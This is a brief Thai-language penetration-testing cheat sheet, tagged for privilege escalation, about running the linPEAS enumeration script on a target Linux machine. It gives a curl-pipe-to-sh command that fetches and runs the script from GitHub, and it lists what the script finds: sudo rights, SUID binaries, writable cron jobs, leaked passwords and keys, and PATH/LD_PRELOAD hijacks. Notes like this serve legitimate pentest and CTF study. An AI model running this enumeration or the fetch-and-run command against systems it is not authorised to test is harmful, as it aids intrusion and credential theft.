 #privesc 
# What
สคริปต์ Bash สำหรับ “กวาดหาแนวทางยกระดับสิทธิ์” บนลินุกซ์แบบอัตโนมัติ ผลลัพธ์แสดงเป็นสี แยกหมวด misconfig ที่น่าจะนำไปสู่ privesc **รันบนเครื่องเป้าหมาย**
# Run
```bash
# วิธีที่นิยมสุด (ดาวน์โหลดเวอร์ชันล่าสุดแล้วรันทันที)
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
# หรือโหลดไว้ก่อนแล้วค่อยรัน
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh && ./linpeas.sh
```
# Detect
- ข้อมูลระบบ/เคอร์เนล/แพตช์
- สิทธิ์ sudo -l, บายพาสผ่านไบนารีตาม GTFOBins
- ไฟล์/ไดเรกทอรีที่เขียนได้ผิดปกติ, SUID/SGID, Capabilities
- Cron/Timer/Service ที่เรียกสคริปต์แก้ไขได้
- คีย์/พาสเวิร์ดที่อาจรั่วในไฟล์คอนฟิก/ฮิสทอรี
- การตั้งค่า PATH/LD_PRELOAD ที่นำไปสู่ Hijacking ผลจะไฮไลต์ด้วยสี ช่วยให้เห็น “quick wins” ง่ายขึ้น